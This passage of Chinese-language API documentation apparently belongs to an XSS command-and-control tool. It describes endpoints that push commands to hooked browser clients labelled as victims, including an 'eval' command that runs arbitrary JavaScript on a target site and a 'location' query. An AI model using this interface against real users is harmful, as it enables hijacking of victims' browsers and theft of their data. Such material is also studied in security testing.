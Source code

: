 ### 2. 向指定客户端发送命令
```http
POST /api/clients/{client_id}/commands
Content-Type: application/json
```

**功能:** 向指定的客户端发送命令

**路径参数:**
- `client_id` (必需, string): 目标客户端ID

**请求体:**
```json
{
  "command": "eval",
  "args": {
    "code": "alert('XSS Test')"
  }
}
```

**响应示例:**
```json
{
  "status": "success",
  "message": "命令执行完成，收到 1 个结果", 
  "data": {
    "command": "eval",
    "target_id": "victim_abc123",
    "args": {
      "code": "alert('XSS Test')"
    },
    "results": [
      {
        "client_id": "victim_abc123",
        "command": "eval",
        "result": "undefined",
        "url": "https://target-site.com",
        "timestamp": 1640995200
      }
    ],
    "count": 1
  },
  "timestamp": "2025-01-20T10:35:00Z"
}
```

### 3. 使用目标ID发送命令（替代方法）
```http
POST /api/commands
Content-Type: application/json
```

**请求体:**
```json
{
  "target_id": "victim_abc123",
  "command": "location",
  "args": {}
}
```
